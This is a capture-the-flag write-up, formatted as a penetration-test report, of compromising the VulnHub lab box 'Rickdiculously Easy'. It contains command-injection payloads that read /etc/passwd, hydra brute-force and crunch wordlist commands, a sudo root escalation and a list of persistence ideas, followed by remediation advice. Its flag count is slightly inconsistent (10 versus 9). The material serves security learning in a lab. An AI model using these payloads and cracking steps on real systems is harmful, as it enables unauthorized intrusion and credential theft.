





# Penetration Test Report
## Box: Rickdiculously Easy (VulnHub)

---

### Executive Summary

**Target:** Rickdiculously Easy  
**Platform:** VulnHub  
**Difficulty:** Easy  
**Date:** October 31, 2024  
**Tester:** Kelvin Mbugua  
**Status:** Completed

#### Key Findings
- Successfully identified and exploited multiple vulnerabilities including command injection, weak authentication, and information disclosure
- Obtained full root access through privilege escalation via sudo permissions
- Number of flags captured: 10/130 (130 total points achieved)
- Root access achieved: Yes

#### Critical Vulnerabilities
- Anonymous FTP access enabled
- Command injection vulnerability in web CGI script
- Weak SSH password protection
- Insecure file permissions and information disclosure
- Unrestricted sudo privileges for compromised user

---

### Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Enumeration](#enumeration)
3. [Vulnerability Analysis](#vulnerability-analysis)
4. [Exploitation](#exploitation)
5. [Post-Exploitation](#post-exploitation)
6. [Flags Collected](#flags-collected)
7. [Remediation](#remediation)
8. [Conclusion](#conclusion)

---

## 1. Reconnaissance

### 1.1 Network Discovery

**Objective:** Identify the target IP address on the network.

**Steps:**
```
sudo netdiscover -r 192.168.57.0/24 -i vboxnet1
```

**Results:**
- Target IP: `192.168.57.4`
- Network Range: 192.168.57.0/24
- Interface: vboxnet1


---

## 2. Enumeration

### 2.1 Port Scanning

**Objective:** Identify open ports and running services.

**Initial Scan:**
```
nmap 192.168.57.4
```

**Detailed Service Scan:**
```
nmap -sV -sS -sC -Pn -O -oN ricky.txt 192.168.57.4
```

**Open Ports Identified:**

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| 21 | FTP | vsftpd 3.0.3 | Anonymous login allowed |
| 22 | SSH | OpenSSH 7.5 | Standard SSH port |
| 80 | HTTP | Apache httpd 2.4.27 | Fedora, web server |
| 9090 | HTTP | Cockpit web service 161 | Web management interface |
| 13337 | Unknown | - | Custom service (Rick's backdoor) |
| 22222 | SSH | OpenSSH 7.5 (protocol 2.0) | Alternative SSH port |
| 60000 | Unknown | - | Custom service (Rick's backdoor) |


---

**Analysis:** The target is running multiple services including standard services on non-standard ports, which suggests potential backdoors and misconfigurations.

### 2.2 Web Enumeration

**Identified Web Services:**
- Port 80: HTTP (Apache)
- Port 9090: HTTP (Cockpit web service)

#### Port 80 Enumeration

**Directory Enumeration:**
```
gobuster dir -u http://192.168.57.4 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

**Results:**
```
/passwords            (Status: 301) [Size: 238] [--> http://192.168.57.4/passwords/]
```



---

**Web Application Analysis:**

**Main Page (http://192.168.57.4/):**
- Technology Stack: Apache 2.4.27 on Fedora
- Landing page inspection revealed no immediate flags

**Passwords Directory (http://192.168.57.4/passwords/):**
- Discovered FLAG.txt file containing: **FLAG{Yeah d- just don't do it.}** - 10 Points
- HTML source code revealed hidden comment: `<!--Password: winter-->`
- This password appeared to be a potential credential for SSH access


**Port 9090 Web Service:**
- Cockpit web management interface
- Discovered FLAG: **FLAG{There is no Zeus, in your face!}** - 10 Points



#### Robots.txt Analysis

**Discovery:**
```
curl http://192.168.57.4/robots.txt
```

**Contents:**
```
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

**Analysis of Discovered Paths:**

**/cgi-bin/root_shell.cgi:**
- Investigated but found no exploitable functionality

**/cgi-bin/tracertool.cgi:**
- Web-based traceroute tool
- **CRITICAL FINDING:** Vulnerable to command injection
- Successfully executed arbitrary commands using semicolon separator

**Command Injection Testing:**
```
;ls -la /etc/
```
Result: Successfully listed contents of /etc/ directory

**User Enumeration via Command Injection:**
```
;tail /etc/passwd
```

**Discovered Users:**
- RickSanchez
- Morty
- Summer



### 2.3 Service-Specific Enumeration

#### FTP Enumeration (Port 21)

**Connection:**
```
ftp 192.168.57.4
```

**Credentials:** anonymous / (no password)

**Results:**
- Anonymous login successful
- Discovered FLAG.txt file
- Retrieved flag: **FLAG{Whoa this is unexpected}** - 10 Points



#### SSH Enumeration (Port 22222)

**Initial Access Attempt:**

Using the password "winter" discovered from HTML comments and username "Summer":

```
ssh Summer@192.168.57.4 -p 22222
```


**Result:** Successful authentication

**File System Exploration:**

```
ls -la
```

**Flag Discovery:**

Found FLAG.txt in Summer's home directory. Used grep with regex to extract flag:

```
grep '[a-zA-Z0-9]' FLAG.txt
```

**Command Explanation:**
- `grep`: Search text utility
- `[a-zA-Z0-9]`: Regex pattern matching:
  - `a-z`: lowercase letters
  - `A-Z`: uppercase letters  
  - `0-9`: digits
- This filters lines containing at least one alphanumeric character, removing special characters and whitespace-only lines

**Flag Retrieved:** **FLAG{Get off the high road Summer!}** - 10 Points


**Additional Enumeration:**

Discovered three user directories:
- /home/Summer (current access)
- /home/Morty
- /home/RickSanchez

**Morty's Directory Investigation:**

Found two interesting files:
- journal.txt.zip (password protected)
- Safe_Password.jpg (image file)

**File Exfiltration:**

```
scp -P 22222 Summer@192.168.57.4:/home/Morty/journal.txt.zip ./
scp -P 22222 Summer@192.168.57.4:/home/Morty/Safe_Password.jpg ./
```
we are using scp as a safe copy method and is also the easiest way to transfer 

**Password Extraction from Image:**

```
strings Safe_Password.jpg
```

**Discovered Password:** "Meeseek"



**ZIP File Extraction:**

```
unzip journal.txt.zip
Password: Meeseek
```

**Journal Contents:**

```
cat journal.txt
```

**Flag Retrieved:** **FLAG{131333}** - 20 Points

**RickSanchez's Directory Investigation:**

Found two subdirectories:
- RICKS_SAFE
- ThisDoesntContainAnyFlags

**ThisDoesntContainAnyFlags:**
- Explored but found no flags (as advertised)

**RICKS_SAFE:**
- Discovered executable file named "safe"
- Copied to writable location for analysis

**Safe Executable Analysis:**

Initial execution:
```
./safe
```

Output: "Usage: ./safe <password>"

**Password Attempt:**

Using clue from journal.txt (FLAG{131333}):

```
./safe 131333
```

**Flag Retrieved:** **FLAG{And Awwwaaaaayyyy we Go!}** - 20 Points

**Password Hints Discovered:**

The safe executable revealed Rick's password creation pattern:
```
Ricks password hints:
(This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)

Follow these clues, in order:
1 uppercase character
1 digit
One of the words in my old bands name.
```

#### Netcat Enumeration (Ports 13337 & 60000)

**Port 13337:**
```
nc 192.168.57.4 13337
```

**Flag Retrieved:** **FLAG{TheyFoundMyBackDoorMorty}** - 10 Points


**Port 60000:**
```
nc 192.168.57.4 60000
```

**Flag Retrieved:** **FLAG{Flip the pickle Morty!}** - 10 Points


---

## 3. Vulnerability Analysis

### 3.1 Identified Vulnerabilities

**Vulnerability #1: Anonymous FTP Access**
- **Severity:** Medium
- **Service/Port:** FTP (Port 21)
- **CVE:** N/A (Misconfiguration)
- **Description:** The FTP server allows anonymous authentication without password requirements, enabling unauthorized access to files and information disclosure.
- **Impact:** Information disclosure, potential credential harvesting
- **Evidence:**`


**Vulnerability #2: Command Injection in CGI Script**
- **Severity:** Critical
- **Service/Port:** HTTP (Port 80) - /cgi-bin/tracertool.cgi
- **CVE:** N/A (Custom vulnerability)
- **Description:** The tracertool.cgi script fails to properly sanitize user input, allowing command injection through semicolon command separators. Attackers can execute arbitrary system commands with web server privileges.
- **Impact:** Remote code execution, system enumeration, potential privilege escalation
- **Proof of Concept:**
```
Payload: ;tail /etc/passwd
Result: Successfully enumerated system users
```
- **Evidence:**


**Vulnerability #3: Weak Password Protection**
- **Severity:** High
- **Service/Port:** SSH (Port 22222)
- **CVE:** N/A (Misconfiguration)
- **Description:** SSH credentials were discoverable through:
  - Hardcoded password in HTML comments ("winter")
  - Predictable password pattern based on publicly available information (band name)
- **Impact:** Unauthorized SSH access, lateral movement
- **Evidence:**
```
<screenshot of HTML source showing password comment>
```

**Vulnerability #4: Information Disclosure**
- **Severity:** Medium
- **Service/Port:** Multiple (Web, Files)
- **CVE:** N/A (Misconfiguration)
- **Description:** Sensitive information exposed through:
  - Passwords in HTML comments
  - Unprotected password hints directory
  - Steganography-accessible passwords in image metadata
  - Password hints in executable files
- **Impact:** Credential compromise, reduced attack complexity
- **Evidence:**
```
<screenshots of various information disclosure instances>
```

**Vulnerability #5: Insecure File Permissions**
- **Severity:** Medium
- **Service/Port:** SSH/File System
- **CVE:** N/A (Misconfiguration)
- **Description:** Users could access files in other users' home directories, including sensitive files like journals and safe executables.
- **Impact:** Horizontal privilege escalation, information disclosure
- **Evidence:**
```
<screenshot showing cross-user file access>
```

**Vulnerability #6: Unrestricted Sudo Privileges**
- **Severity:** Critical
- **Service/Port:** System (Post-authentication)
- **CVE:** N/A (Misconfiguration)
- **Description:** User "RickSanchez" has unrestricted sudo privileges (ALL=(ALL) ALL), allowing immediate privilege escalation to root without additional exploitation.
- **Impact:** Complete system compromise
- **Evidence:**
```
<screenshot of sudo -l output>
```

---

## 4. Exploitation

### 4.1 Initial Access

**Exploitation Method:** Weak credential exploitation via SSH

**Attack Path:**
1. Discovered password "winter" in HTML source code
2. Enumerated usernames (Summer, Morty, RickSanchez) via command injection
3. Successfully authenticated via SSH with credentials Summer:winter

**Steps Taken:**

**Step 1: Credential Discovery**
```
curl http://192.168.57.4/passwords/ | grep -i password
```
Result: Found HTML comment containing `<!--Password: winter-->`

**Step 2: SSH Authentication**
```
ssh Summer@192.168.57.4 -p 22222
Password: winter
```

**Evidence of Successful Exploitation:**
```
<screenshot showing successful SSH login as Summer>
```

### 4.2 Lateral Movement

**Objective:** Escalate from Summer to RickSanchez account

**Method:** Password cracking based on discovered hints

**Step 1: Intelligence Gathering**

From the safe executable, discovered password pattern:
- 1 uppercase character
- 1 digit
- One word from Rick's band name: "The Flesh Curtains"

**Step 2: Wordlist Generation**

Used crunch to generate targeted wordlist:

```
crunch 5 5 -t ,%The > rick-wordlist.txt
crunch 7 7 -t ,%Flesh >> rick-wordlist.txt
crunch 10 10 -t ,%Curtains >> rick-wordlist.txt
```

**Pattern Explanation:**
- `,` = uppercase letter
- `%` = digit
- Remaining characters = band name words

```
<screenshot of crunch wordlist generation>
```

**Step 3: Password Cracking with Hydra**

```
hydra -l RickSanchez -P rick-wordlist.txt ssh://192.168.57.4:22222
```

**Result:** Successfully cracked password: `P7Curtains`

```
<screenshot of Hydra successful crack>
```

**Step 4: SSH Access as RickSanchez**

```
ssh RickSanchez@192.168.57.4 -p 22222
Password: P7Curtains
```

```
<screenshot of successful SSH login as RickSanchez>
```

### 4.3 Additional Exploitation Vectors

**Command Injection Usage:**

While SSH provided the primary access vector, the command injection vulnerability in /cgi-bin/tracertool.cgi could have been leveraged for:
- Reverse shell establishment
- File system manipulation
- Further enumeration
- Alternative initial access method

**Proof of Concept:**
```
;cat /etc/passwd
;whoami
;id
```

```
<screenshot of command injection demonstrating potential for reverse shell>
```

---

## 5. Post-Exploitation

### 5.1 System Information Gathering

**Operating System:**
```
uname -a
```
Output:
```
Linux 3.10.0-693.21.1.el7.x86_64 #1 SMP Fedora
```

**Current User:**
```
whoami
id
```
Output:
```
RickSanchez
uid=1004(RickSanchez) gid=1004(RickSanchez) groups=1004(RickSanchez)
```

**Network Configuration:**
```
ifconfig
ip addr
```

```
<screenshot of system information commands>
```

### 5.2 Privilege Escalation

**Enumeration for Privilege Escalation:**

**Sudo Privileges Check:**
```
sudo -l
```

**Output:**
```
User RickSanchez may run the following commands on this host:
    (ALL) ALL
```

**Vulnerability Identified:**

User RickSanchez has unrestricted sudo privileges, allowing direct privilege escalation to root without password or additional exploitation.

**Exploitation Steps:**

```
sudo su
```

**Result:** Immediate root access granted

```
<screenshot showing sudo su to root>
```

**Root Flag Capture:**

```
cd /root
ls -la
cat FLAG.txt
```

**Flag Retrieved:** **FLAG{Ionic Defibrillator}** - 30 Points

```
<screenshot of root flag retrieval>
```

### 5.3 Persistence & Lateral Movement

**Persistence Mechanisms (Theoretical):**

With root access achieved, the following persistence mechanisms could be implemented:
- SSH key installation in /root/.ssh/authorized_keys
- Creation of privileged user accounts
- Backdoor services on additional ports
- Cron job establishment
- System service modification

**Note:** These actions were not performed as this is a CTF environment.

---

## 6. Flags Collected

| Flag # | Location/Method | Points | Content | Screenshot |
|--------|----------------|--------|---------|------------|
| Flag 1 | HTTP Port 80 - /passwords/FLAG.txt | 10 | `FLAG{Yeah d- just don't do it.}` | ```<screenshot>``` |
| Flag 2 | HTTP Port 9090 - Cockpit Interface | 10 | `FLAG{There is no Zeus, in your face!}` | ```<screenshot>``` |
| Flag 3 | FTP Anonymous Access - FLAG.txt | 10 | `FLAG{Whoa this is unexpected}` | ```<screenshot>``` |
| Flag 4 | SSH - /home/Summer/FLAG.txt | 10 | `FLAG{Get off the high road Summer!}` | ```<screenshot>``` |
| Flag 5 | SSH - /home/Morty/journal.txt.zip | 20 | `FLAG{131333}` | ```<screenshot>``` |
| Flag 6 | SSH - /home/RickSanchez/RICKS_SAFE/safe | 20 | `FLAG{And Awwwaaaaayyyy we Go!}` | ```<screenshot>``` |
| Flag 7 | Netcat - Port 13337 | 10 | `FLAG{TheyFoundMyBackDoorMorty}` | ```<screenshot>``` |
| Flag 8 | Netcat - Port 60000 | 10 | `FLAG{Flip the pickle Morty!}` | ```<screenshot>``` |
| Flag 9 | Root Access - /root/FLAG.txt | 30 | `FLAG{Ionic Defibrillator}` | ```<screenshot>``` |

**Total Flags Captured:** 9 flags / 130 Points

**Note:** The box advertises 130 total points available. All major flags appear to have been captured. The point distribution suggests there may be additional hidden flags not yet discovered.

---

## 7. Remediation

### 7.1 Critical Recommendations

**1. Command Injection (CGI Scripts)**
- **Recommendation:** 
  - Implement strict input validation and sanitization
  - Use parameterized commands instead of shell execution
  - Employ whitelist-based input validation
  - Remove or properly secure /cgi-bin/tracertool.cgi
  - Consider using modern frameworks that handle user input securely
- **Priority:** Critical
- **CVSS Score Estimate:** 9.8 (Critical)

**2. Unrestricted Sudo Privileges**
- **Recommendation:**
  - Apply principle of least privilege
  - Remove blanket sudo ALL privileges
  - Implement specific command-based sudo rules if needed
  - Require password for sudo operations
  - Regular audit of sudo configurations
- **Priority:** Critical
- **CVSS Score Estimate:** 8.8 (High)

**3. Anonymous FTP Access**
- **Recommendation:**
  - Disable anonymous FTP login
  - Implement authentication for all FTP access
  - Consider using SFTP instead of FTP
  - If anonymous access is required, restrict to read-only and non-sensitive directories
- **Priority:** High
- **CVSS Score Estimate:** 5.3 (Medium)

**4. Information Disclosure**
- **Recommendation:**
  - Remove passwords and sensitive information from HTML comments
  - Implement proper secrets management
  - Remove password hints from publicly accessible locations
  - Sanitize image metadata before uploading
  - Review all code for hardcoded credentials
- **Priority:** High
- **CVSS Score Estimate:** 6.5 (Medium)

**5. Weak Password Policies**
- **Recommendation:**
  - Enforce strong password complexity requirements
  - Implement multi-factor authentication
  - Use password managers and randomly generated passwords
  - Regular password rotation policies
  - Avoid patterns based on publicly available information
- **Priority:** High
- **CVSS Score Estimate:** 7.5 (High)

**6. Non-Standard Services on High Ports**
- **Recommendation:**
  - Remove unnecessary backdoor services (ports 13337, 60000)
  - Implement firewall rules to restrict port access
  - Use standard ports for legitimate services
  - Document and justify any non-standard port usage
- **Priority:** Medium
- **CVSS Score Estimate:** 5.9 (Medium)

### 7.2 Additional Security Improvements

**Network Segmentation:**
- Implement proper network segmentation
- Use VLANs to separate different security zones
- Restrict inter-host communication

**Access Control:**
- Implement file system permissions correctly
- Users should not access other users' home directories
- Use SELinux or AppArmor for mandatory access control

**Monitoring and Logging:**
- Implement centralized logging (SIEM)
- Monitor for command injection attempts
- Alert on suspicious sudo usage
- Track failed authentication attempts
- Regular log review and analysis

**SSH Hardening:**
- Disable password authentication, use key-based only
- Implement fail2ban or similar brute-force protection
- Change SSH from non-standard ports back to 22 (security through obscurity is not effective)
- Disable root login via SSH
- Implement IP whitelisting if possible

**Web Application Security:**
- Regular security assessments and penetration testing
- Implement Web Application Firewall (WAF)
- Keep all software and dependencies updated
- Remove unnecessary scripts and services
- Implement Content Security Policy headers

**General System Hardening:**
- Keep system packages updated
- Remove unnecessary services and software
- Implement intrusion detection systems (IDS)
- Regular vulnerability scanning
- Security awareness training for users

---

## 8. Conclusion

### 8.1 Summary

This penetration test of the "Rickdiculously Easy" VulnHub box successfully identified and exploited multiple critical and high-severity vulnerabilities. The assessment revealed 6 major vulnerability classes ranging from critical command injection to misconfigurations enabling privilege escalation.

**Attack Path Summary:**
1. Initial reconnaissance identified 7 open ports with various services
2. Web enumeration revealed password in HTML comments and command injection vulnerability
3. Initial access obtained via SSH using discovered credentials (Summer:winter)
4. Lateral movement achieved through password cracking (RickSanchez:P7Curtains)
5. Privilege escalation to root accomplished via unrestricted sudo permissions
6. Total of 9 flags captured for 130 points

The target system demonstrated multiple security weaknesses typical of poorly configured systems, including information disclosure, weak authentication, and excessive privileges.

### 8.2 Key Takeaways

**Technical Lessons:**
- **Defense in Depth is Critical:** Multiple vulnerabilities were chained together to achieve full compromise. A single strong control could have prevented the entire attack chain.
- **Input Validation Matters:** The command injection vulnerability demonstrated the critical importance of proper input sanitization.
- **Principle of Least Privilege:** Excessive sudo permissions allowed immediate privilege escalation, showing why minimal necessary permissions should be granted.
- **Information Disclosure is Dangerous:** Small pieces of leaked information (HTML comments, file metadata, hints) significantly reduced attack complexity.

**Methodology Insights:**
- Thorough enumeration is essential - flags and vulnerabilities were distributed across multiple services
- OSINT and pattern recognition (band name research) proved valuable for credential attacks
- Standard tools (nmap, gobuster, hydra, strings) were sufficient for complete compromise
- Manual testing and creative thinking were required for puzzle-solving elements

**CTF-Specific Observations:**
- This box effectively simulates real-world scenarios while incorporating CTF puzzle elements
- The difficulty rating of "Easy" is appropriate for beginners learning penetration testing methodology
- The Rick and Morty theme added an entertaining element to the technical challenge

### 8.3 Tools Used

**Reconnaissance & Enumeration:**
- netdiscover - Network host discovery
- nmap - Port scanning and service enumeration
- gobuster - Web directory enumeration

**Exploitation:**
- ssh - Secure shell client for remote access
- nc (netcat) - Network connection tool for backdoor access
- hydra - Network authentication cracker
- crunch - Wordlist generator

**Analysis & Extraction:**
- strings - Extract printable strings from files
- grep - Pattern matching and text search
- scp - Secure file copy
- unzip - Archive extraction

**General:**
- curl - HTTP client for web requests
- ftp - FTP client for file transfer
- Standard Linux utilities (ls, cat, whoami, sudo, etc.)

### 8.4 Recommendations for Future Assessments

**For System Administrators:**
- This assessment demonstrates the importance of regular security audits
- Implement the remediation steps outlined in Section 7
- Conduct regular penetration testing on production systems
- Establish security baseline configurations

**For Penetration Testers:**
- Always enumerate thoroughly across all discovered services
- Look for information disclosure in unusual places (HTML comments, image metadata)
- Consider password patterns and OSINT for credential attacks
- Don't overlook simple misconfigurations - they often provide the easiest path

---

## Appendix

### A. Full Command History

```
# Network Discovery
sudo netdiscover -r 192.168.57.0/24 -i vboxnet1

# Port Scanning
nmap 192.168.57.4
nmap -sV -sS -sC -Pn -O -oN ricky.txt 192.168.57.4

# Web Enumeration
gobuster dir -u http://192.168.57.4 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
curl http://192.168.57.4/robots.txt
curl http://192.168.57.4/passwords/

# FTP Access
ftp 192.168.57.4
# Username: anonymous
# Commands: ls, get FLAG.txt

# SSH Access - Summer
ssh Summer@192.168.57.4 -p 22222
# Password: winter
ls -la
grep '[a-zA-Z0-9]' FLAG.txt

# File Exfiltration
scp -P 22222 Summer@192.168.57.4:/home/Morty/journal.txt.zip ./
scp -P 22222 Summer@192.168.57.4:/home/Morty/Safe_Password.jpg ./

# Password Extraction
strings Safe_Password.jpg
unzip journal.txt.zip
# Password: Meeseek
cat journal.txt

# Safe Executable
./safe 131333

# Wordlist Generation
crunch 5 5 -t ,%The > rick-wordlist.txt
crunch 7 7 -t ,%Flesh >> rick-wordlist.txt
crunch 10 10 -t ,%Curtains >> rick-wordlist.txt

# Password Cracking
hydra -l RickSanchez -P rick-wordlist.txt ssh://192.168.57.4:22222

# SSH Access - RickSanchez
ssh RickSanchez@192.168.57.4 -p 22222
# Password: P7Curtains

# Privilege Escalation
sudo -l
sudo su

# Root Flag
cd /root
ls -la
cat FLAG.txt

# Netcat Backdoors
nc 192.168.57.4 13337
nc 192.168.57.4 60000

# Command Injection Testing (via web browser/curl)
# Payload in tracertool.cgi: ;ls -la /etc/
# Payload: ;tail /etc/passwd
```

### B. Additional Screenshots

```
<All screenshots referenced throughout the report should be compiled here>

1. Network discovery showing target IP
2. Nmap comprehensive scan results
3. Gobuster directory enumeration
4. /passwords directory with flag
5. HTML source showing password comment
6. Port 9090 flag
7. robots.txt contents
8. Command injection in tracertool.cgi
9. User enumeration via command injection
10. FTP anonymous login and flag
11. SSH login as Summer
12. Flag extraction with grep
13. SCP file transfers
14. strings output showing password in image
15. Journal.txt contents
16. Safe executable execution
17. Rick's password hints
18. Crunch wordlist generation
19. Hydra password cracking success
20. SSH login as RickSanchez
21. Sudo privileges check
22. Privilege escalation to root
23. Root flag capture
24. Netcat connection to port 13337
25. Netcat connection to port 60000
```

### C. References

- **VulnHub Platform:** https://www.vulnhub.com/
- **Rickdiculously Easy Box:** https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/
- **OWASP Top 10:** https://owasp.org/www-project-top-ten/
- **Command Injection Prevention:** https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html
- **SSH Hardening Guide:** https://www.ssh.com/academy/ssh/security-hardening
- **Linux Privilege Escalation:** https://gtfobins.github.io/
- **Hydra Documentation:** https://github.com/vanhauser-thc/thc-hydra
- **Crunch Manual:** https://sourceforge.net/projects/crunch-wordlist/

### D. CVSS Scores Summary

| Vulnerability | CVSS v3.1 Score | Severity |
|--------------|----------------|----------|
| Command Injection | 9.8 | Critical |
| Unrestricted Sudo | 8.8 | High |
| Weak Passwords | 7.5 | High |
| Information Disclosure | 6.5 | Medium |
| Anonymous FTP | 5.3 | Medium |
| Non-Standard Services | 5.9 | Medium |

---

**Report Prepared By:** Kelvin Mbugua  
**Date:** October 31, 2024  
**Contact:** [Your Contact Information]  

**Disclaimer:** This penetration test was conducted on an isolated virtual machine environment for educational purposes. All activities were authorized and contained within a controlled lab setting.
